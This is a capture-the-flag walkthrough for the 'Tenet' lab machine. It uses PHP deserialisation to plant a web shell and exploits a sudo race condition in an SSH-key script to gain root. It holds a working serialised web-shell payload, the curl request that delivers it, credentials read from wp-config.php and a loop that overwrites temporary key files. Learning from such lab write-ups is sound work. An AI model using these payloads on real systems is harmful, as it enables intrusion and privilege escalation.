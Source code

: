 # Tenet

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 5000 10.129.85.1  
Starting Nmap 7.93 ( https://nmap.org ) at 2023-04-30 08:28 EDT
Nmap scan report for 10.129.85.1
Host is up (0.0071s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

Another web-based exploit. We have to add `tenet.htb` to our `/etc/hosts` file to view the website.

### Tenet PHP Deserialisation

The machine has a blog-like website:

<figure><img src="../../../.gitbook/assets/image (226).png" alt=""><figcaption></figcaption></figure>

This is a Wordpress based site if we view the page source. If we view some of the comments within the pages, we can see this comment that points us towards another file:

<figure><img src="../../../.gitbook/assets/image (3351).png" alt=""><figcaption></figcaption></figure>

Visiting `sator.php` won't do anything. Instead, visit`http://<IP>/sator.php.bak`, and it would download file to our machine. Then, we can view the file contents:

```php
<?php

class DatabaseExport
{
	public $user_file = 'users.txt';
	public $data = '';

	public function update_db()
	{
		echo '[+] Grabbing users from text file <br>';
		$this-> data = 'Success';
	}


	public function __destruct()
	{
		file_put_contents(__DIR__ . '/' . $this ->user_file, $this->data);
		echo '[] Database updated <br>';
	//	echo 'Gotta get this working properly...';
	}
}

$input = $_GET['arepo'] ?? '';
$databaseupdate = unserialize($input);

$app = new DatabaseExport;
$app -> update_db();


?>
```

This was an obvious deserialisation exploit at the `sator.php` file hosted on the IP address. As such, we can create this small bit of code that would write a new file to the machine.

```php
<?php

class DatabaseExport {

    public $file = "cmd.php";
    public $data = '<?php system($_REQUEST["cmd"]); ?>';

}

$input = new DatabaseExport;
echo serialize($input);
?>
```

When run in PHP, it wouuld create a PHP Serialised object. Then, we just need to send that within the `arepo` parameter in a GET request to `sator.php`:

```
$ curl -G --data-urlencode 'arepo=O:14:"DatabaseExport":2:{s:9:"user_file";s:7:"cmd.php";s:4:"data";s:34:"<?php system($_REQUEST["cmd"]); ?>";}' http://10.129.85.1/sator.php
```

Afterwards, we can confirm we have RCE on the machine:

```
$ curl http://10.129.85.1/cmd.php?cmd=id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Just spawn a reverse shell using a basic `bash` shell next.

<figure><img src="../../../.gitbook/assets/image (740).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### Wordpress Credentials

Now that we are in, we can read the `wp-config.php` file. We would find some credentials in it:

```
/** MySQL database username */
define( 'DB_USER', 'neil' );

/** MySQL database password */
define( 'DB_PASSWORD', 'Opera2112' );

/** MySQL hostname */
define( 'DB_HOST', 'localhost' );
```

We can then just `su` to `neil` and grab the user flag.

### Sudo Race Condition

When we check `sudo` privileges, we see this:

```
www-data@tenet:/var/www/html$ sudo -l
Matching Defaults entries for www-data on tenet:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:

User www-data may run the following commands on tenet:
    (ALL : ALL) NOPASSWD: /usr/local/bin/enableSSH.sh
```

Here's the script:

```bash
#!/bin/bash

checkAdded() {
        sshName=$(/bin/echo $key | /usr/bin/cut -d " " -f 3)
        if [[ ! -z $(/bin/grep $sshName /root/.ssh/authorized_keys) ]]; then
                /bin/echo "Successfully added $sshName to authorized_keys file!"
        else
                /bin/echo "Error in adding $sshName to authorized_keys file!"
        fi
}

checkFile() {
        if [[ ! -s $1 ]] || [[ ! -f $1 ]]; then
                /bin/echo "Error in creating key file!"
                if [[ -f $1 ]]; then /bin/rm $1; fi
                exit 1
        fi
}

addKey() {
        tmpName=$(mktemp -u /tmp/ssh-XXXXXXXX)
        (umask 110; touch $tmpName)
        /bin/echo $key >>$tmpName
        checkFile $tmpName
        /bin/cat $tmpName >>/root/.ssh/authorized_keys
        /bin/rm $tmpName
}
```

This script is a classic example of a race condition attack. Since the key is temporarily created within the `/tmp` directory before being added to the `authorized_keys` folder of `root`, we can intercept the response by having a loop running within the `/tmp` directory that checks for the key's creation, then overwrite the file with my own key.

<pre class="language-bash" data-overflow="wrap"><code class="lang-bash"># in first SSH shell
while true; do for file in /tmp/ssh-*; do echo 'YOUR KEY VALUE' > $file ; done; done
# in another
<strong>while true; do sudo /usr/local/bin/enableSSH.sh; done
</strong><strong>
</strong><strong># alternatively, run this script
</strong>#!/bin/bash

while true; do
        cat id_rsa.pub | tee /tmp/ssh-*
        sudo /usr/local/bin/enableSSH.sh
done
</code></pre>

After a while, we should get an error like this:

<figure><img src="../../../.gitbook/assets/image (3612).png" alt=""><figcaption></figcaption></figure>

Then we can just SSH to `root`.

<figure><img src="../../../.gitbook/assets/image (2205).png" alt=""><figcaption></figcaption></figure>

Rooted!
